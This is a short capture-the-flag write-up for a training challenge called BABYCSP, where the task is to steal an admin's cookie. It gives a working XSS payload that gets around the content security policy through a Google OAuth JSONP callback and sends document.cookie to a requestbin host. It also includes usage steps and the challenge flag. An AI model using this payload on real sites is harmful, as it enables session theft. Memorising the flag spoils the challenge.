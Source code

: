 # BABYCSP

Steal the admin's cookie on this website: http://babycsp.training.ctf.necst.it/

The admin will visit the pages you "report to admin" with a Gecko-based headless browser.




"><script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href='https://requestbin.training.ctf.necst.it/1okl04d1'%2bdocument.cookie;a"></script>

//https://requestbin.training.ctf.necst.it/11o6bea1  --> request bin url
//%2b toencode +
//a at the end to give a name to the following existing function(not sure if necessary)

//inject the script into the text, copy the "report to admin" and run it with the id of the script request. Should receive the flag on request bin in a while

flag{4re_yo0_s0_sure_csp_1s_useful?}
